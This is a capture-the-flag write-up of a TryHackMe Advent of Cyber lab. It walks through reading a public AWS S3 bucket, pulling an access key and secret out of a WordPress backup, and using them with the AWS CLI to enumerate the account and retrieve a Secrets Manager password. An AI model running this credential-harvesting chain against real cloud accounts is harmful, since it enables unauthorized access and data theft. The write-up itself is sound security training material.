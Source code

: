 # TryHackMe [Advent of Cyber 3](https://tryhackme.com/room/adventofcyber3) Day 17

### References
* Cyber Insecurity. (2021). Advent of Cyber 3 (2021) - AWS S3 Recon & Data Exfil - Elf Leaks - TryHackMe [YouTube Video]. In YouTube. https://youtu.be/RAgvdpvKJa0
* The AWS CLI and `curl` were installed in my Kali Linux environment by running `sudo apt install awscli curl`.

## What is the name of the S3 Bucket used to host the HR Website announcement?
* The provided email (URL of <https://s3.amazonaws.com/images.bestfestivalcompany.com/flyer.png>) suggests the S3 bucket name:
    ![PNG from AWS S3](https://s3.amazonaws.com/images.bestfestivalcompany.com/flyer.png)

**Answer**: `images.bestfestivalcompany.com`
## What is the message left in the `flag.txt` object from that bucket?
```
$ curl https://s3.amazonaws.com/images.bestfestivalcompany.com/flag.txt
It's easy to get your elves data when you leave it so easy to find!
```

**Answer**: `It's easy to get your elves data when you leave it so easy to find!`
## What other file in that bucket looks interesting to you?
* The `wp-backup.zip` stands-out because rarer-in-comparison file extension:

```bash
$ aws s3 ls s3://images.bestfestivalcompany.com --no-sign-request
2021-11-13 10:06:51       6148 .DS_Store
2021-11-13 07:43:03     108420 0vF39p3.png
2021-11-27 06:55:21     705191 AWSConsole.png
2021-11-13 07:43:03       5652 aws-logo.png
2021-11-13 10:06:51         68 flag.txt
2021-11-13 10:06:51    2349068 flyer.png
2021-11-13 07:43:03      92531 presents.jpg
2021-11-13 07:43:03       4680 tree.png
2021-11-23 18:52:22   16556739 wp-backup.zip
```

**Answer**: `wp-backup.zip`
## What is the AWS Access Key ID in that file?
1. Downloads the WordPress back-up archive:
```bash
$ aws s3 cp s3://images.bestfestivalcompany.com/wp-backup.zip . --no-sign-request
download: s3://images.bestfestivalcompany.com/wp-backup.zip to ./wp-backup.zip
$ unzip wp-backup.zip
```

2. `grep` for the common access key prefix `AKIA`:
```bash
$ grep "AKIA" wp_backup/*
wp_backup/wp-config.php:define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');
```

**Answer**: `AKIAQI52OJVCPZXFYAOI`
## What is the AWS Account ID that access-key works for?
1. From `grep`ping for the access key ID, we can find the access key secret and other details in the file `wp_backup/wp-config.php`:
```php
define('S3_UPLOADS_BUCKET', 'images.bestfestivalcompany.com');
define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');
define('S3_UPLOADS_SECRET', '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');
define('S3_UPLOADS_REGION', 'us-east-1');
```
2. Create a new local AWS CLI profile using the details from the PHP code:
```bash
$ aws configure --profile thm
AWS Access Key ID [None]: AKIAQI52OJVCPZXFYAOI
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]:
```
3. Obtain the account ID number:
```bash
$ aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile thm
{
	"Account": "019181489476"
}
```

**Answer**: `019181489476`
## What is the Username for that access-key?
```bash
$ aws sts get-caller-identity --profile thm
{
	"UserId": "AIDAQI52OJVCFHT3E73BO",
	"Account": "019181489476",
	"Arn": "arn:aws:iam::019181489476:user/ElfMcHR@bfc.com"
}
```

**Answer**: `ElfMcHR@bfc.com`
## There is an EC2 Instance in this account. Under the TAGs, what is the Name of the instance?
```bash
$ aws ec2 describe-instances --output text --profile thm
RESERVATIONS    019181489476    043234062703    r-0e89ba65b28a7c699
INSTANCES       0       x86_64  HR-Po-Insta-1NAKAMW2PPVMT       False   True    xen     ami-0c2b8ca1dad447f8a   i-0c56041ac61cf5a95     t3a.micro       hr-key  2021-11-13T12:36:58.000Z        Linux/UNIX      ip-172-31-68-81.ec2.internal    172.31.68.81               /dev/xvda       ebs     True    User initiated (2021-11-13 12:42:39 GMT)        subnet-00b1107c0c18c0722        RunInstances    2021-11-13T12:36:58.000Z        hvm     vpc-0235b5a9591606b73
BLOCKDEVICEMAPPINGS     /dev/xvda
EBS     2021-11-13T12:36:59.000Z        True    attached        vol-0ac79339aac8b249d
CAPACITYRESERVATIONSPECIFICATION        open
CPUOPTIONS      1       2
ENCLAVEOPTIONS  False
HIBERNATIONOPTIONS      False
METADATAOPTIONS enabled disabled        1       optional        applied
MONITORING      disabled
NETWORKINTERFACES               interface       16:35:78:d8:60:d1       eni-027945da0ddb79e59   019181489476    ip-172-31-68-81.ec2.internal    172.31.68.81    True    in-use  subnet-00b1107c0c18c0722        vpc-0235b5a9591606b73
ATTACHMENT      2021-11-13T12:36:58.000Z        eni-attach-0d91e2137f6014220    True    0       0       attached
GROUPS  sg-0c6e7cd87c1c8d035    default
PRIVATEIPADDRESSES      True    ip-172-31-68-81.ec2.internal    172.31.68.81
PLACEMENT       us-east-1f              default
SECURITYGROUPS  sg-0c6e7cd87c1c8d035    default
STATE   80      stopped
STATEREASON     Client.UserInitiatedShutdown    Client.UserInitiatedShutdown: User initiated shutdown
TAGS    aws:cloudformation:stack-id     arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7
TAGS    aws:cloudformation:logical-id   Instance
TAGS    created_by      Elf McHR
TAGS    aws:cloudformation:stack-name   HR-Portal
TAGS    Name    HR-Portal
```

**Answer**: `HR-Portal`
## What is the database password stored in Secrets Manager?
1. Get secret name:
```bash
$ aws secretsmanager list-secrets --profile thm
{
	"SecretList": [
		{
			"ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:HR-Password-8AkWYF",
			"Name": "HR-Password",
			"Description": "Portal DB Secret",
			"LastChangedDate": 1637717347.812,
			"LastAccessedDate": 1639785600.0,
			"Tags": [
				{
					"Key": "aws:cloudformation:stack-name",
					"Value": "HR-Portal"
				},
				{
					"Key": "aws:cloudformation:logical-id",
					"Value": "FalseSecret"
				},
				{
					"Key": "aws:cloudformation:stack-id",
					"Value": "arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7"
				},
				{
					"Key": "created_by",
					"Value": "Elf McHR"
				},
				{
					"Key": "Name",
					"Value": "Payroll"
				}
			],
			"SecretVersionsToStages": {
				"70630b3c-4fbe-4a24-885d-18445bd808b1": [
					"AWSCURRENT"
				],
				"a702190e-69f7-4a8a-81fd-3d20b486657a": [
					"AWSPREVIOUS"
				]
			},
			"CreatedDate": 1636807016.521
		}
	]
}
```
2. Retrieve the secret value for region `us-east-1`:
```bash
$ aws secretsmanager get-secret-value --secret-id HR-Password --profile thm
{
	"ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:HR-Password-8AkWYF",
	"Name": "HR-Password",
	"VersionId": "70630b3c-4fbe-4a24-885d-18445bd808b1",
	"SecretString": "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives.",
	"VersionStages": [
		"AWSCURRENT"
	],
	"CreatedDate": 1637717347.718
}
```
3. Retrieve the secret value for region `eu-north-1`:
```bash
$ aws secretsmanager get-secret-value --secret-id HR-Password --profile thm --region eu-north-1
{
	"ARN": "arn:aws:secretsmanager:eu-north-1:019181489476:secret:HR-Password-KIJEvK",
	"Name": "HR-Password",
	"VersionId": "f806c3cd-ea20-4a1a-948f-80927f3ad366",
	"SecretString": "Winter2021!",
	"VersionStages": [
		"AWSCURRENT"
	],
	"CreatedDate": 1636809979.996
}
```

**Answer**: `Winter2021!`